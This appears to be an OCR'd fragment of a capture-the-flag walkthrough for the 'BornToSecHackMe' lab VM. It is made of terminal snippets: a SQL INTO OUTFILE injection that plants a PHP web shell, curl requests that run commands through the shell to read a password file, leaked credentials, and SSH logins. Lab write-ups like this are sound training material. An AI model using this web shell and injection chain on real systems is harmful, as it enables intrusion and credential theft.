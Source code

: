 Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)

nagrivan@at-i1 ~ % ssh lmezard@192.168.56.104 -p 22
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
lmezard@192.168.56.104s password:
Permission denied, please try again.


Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.

SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'

nagrivan@at-i1 ~ % curl --insecure 'https://192.168.56.104/forum/templates_c/backdoor.php?cmd=ls%20%20/home'
1	LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

nagrivan@at-i1 ~ % curl --insecure 'https://192.168.56.104/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATME'
1	password

nagrivan@at-i1 ~ % curl --insecure 'https://192.168.56.104/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password'
1	lmezard:G!@M6f4Eatau{sF"

        nagrivan@at-i1 ~ % ssh lmezard@192.168.56.104 -p 22
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|
